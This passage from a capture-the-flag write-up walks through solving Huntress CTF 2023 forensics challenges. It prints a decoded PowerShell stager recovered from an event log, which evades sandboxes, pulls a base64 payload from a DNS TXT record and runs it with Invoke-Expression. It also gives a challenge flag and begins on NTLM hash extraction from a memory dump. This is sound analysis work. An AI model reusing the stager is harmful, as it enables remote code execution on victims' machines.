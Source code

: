 Open log with `Event Log Explorer` and find an entry under event ID 1337 while scrolling. Confirm the game name and a big hex blob. Copy this into CyberChef and convert from hex to get what appears to be a heavily obfuscated PowerShell script. I decided to use `pwsh` in my Remnux host to try and deobfuscate by utilising `Write-Host` and omitting any commands I can that would try to run the code. First pass:

![texas1](/assets/img/huntress_ctf23/texas1.png)

Second pass:

![texas2](/assets/img/huntress_ctf23/texas2.png)

Final pass:

![texas3](/assets/img/huntress_ctf23/texas3.png)

As can be seen, there is a base64 encoded string in there. Pop it into CyberChef along with `Raw Inflate` to decode:

```ps1
try {$TGM8A = Get-WmiObject MSAcpi_ThermalZoneTemperature -Namespace "root/wmi" -ErrorAction 'silentlycontinue' ; if ($error.Count -eq 0) { $5GMLW = (Resolve-DnsName eventlog.zip -Type txt | ForEach-Object { $_.Strings }); if ($5GMLW -match '^[-A-Za-z0-9+/]*={0,3}$') { [System.Text.Encoding]::UTF8.GetString([System.Convert]::FromBase64String($5GMLW)) | Invoke-Expression } } } catch { }
```

Check the TXT record for the domain eventlog.zip using this [site](https://centralops.net/co/) to find another base64 string containing the flag:

**`flag{409537347c2fae01ef9826c2506ac660}`**

# Bad Memory - Medium

_A user came to us and said they forgot their password. Can you recover it? The flag is the MD5 hash of the recovered password wrapped in the proper flag format._

After obtaining and unpacking, I tried running `volatility3` to extract hashes but couldn't find command list online (never thought to check the man pages here!). I did however know how to achieve retrieval of hashes in `volatility`. I figured out the profile by using windows.info with `vol3` to ascertain Win10x64 and using the newest one from the volatility profiles list. To retrieve the NTLM hashes, you need to establish the Virtual Offsets for the SYSTEM and SAM registry hives which can be achieved like so:
